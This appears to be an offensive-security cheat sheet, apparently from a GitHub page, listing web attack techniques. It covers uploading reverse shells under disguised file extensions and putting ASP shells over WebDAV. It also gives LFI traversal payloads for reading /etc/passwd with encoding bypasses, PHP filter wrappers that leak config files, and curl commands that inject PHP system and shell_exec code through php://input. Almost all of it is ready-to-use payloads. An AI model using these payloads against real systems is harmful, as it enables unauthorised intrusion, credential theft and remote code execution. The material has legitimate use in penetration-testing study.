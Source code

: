 ````
  - Upload in language server native (```.asp(x)``` or ```php```), and give approp extension (```.jpg.html```) e.g., ```php-reverse-shell.php.gif```
  - Try a full reverse-shell first! and then a simple php call for RCE if it fails

#### WebDAV
```davtest -url http://10.11.1.229```

```
Cadaver http://10.11.1.229
put shell.txt
move shell.txt
shell.asp
```

#### LFI/RFI
Anything that has a   ```http://website/page?=foo```

We are looking for credentials similar to FTP Traversal, as well as a place to run code e.g., contaminate the logs with PHP script.

#### LFI
Don't forget escape characters:
```
../../../etc/passwd
../../../etc/passwd**%00**
../../../etc/passwd**%00.**
../../../etc/passwd**.html**
../../../etc/passwd**\0.php**
```

Common Obstacles:
```
..%c0%af or ..%252f

 ....// or ....\/
 
/etc/etc/passwd  -‘etc’ may be sanitised by php include function
//etc//etc//passwd
\//etc\//etc\//passwd

POST ?page=php://input&cmd=whoami
```

####  PHP wrappers:

PHP Filter; Useful trick for reading php pages when security is high:
```
?page=php://filter/convert.base64-encode/pg=../config.php
?page=php://filter/convert.base64-encode/resource=config
?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

More PHP Wrappers:

**Expect** allows for immediate RCE (uncommon) 
```?page=expect://whoami```

**Input** allows for upload of data via POST (for RCE or reverse shell)
```?page=php://input```

POST data with ```curl``` and ```php://input```

```curl ‘http://example.com/LFI.php?page=php://input’ -d <?php system(‘whoami’);?>```

```Curl ‘http://example.com/LFI.php?page=php://input&cmd=id’ -d <?php echo shell_exec($_GET[‘cmd’]);?>```
````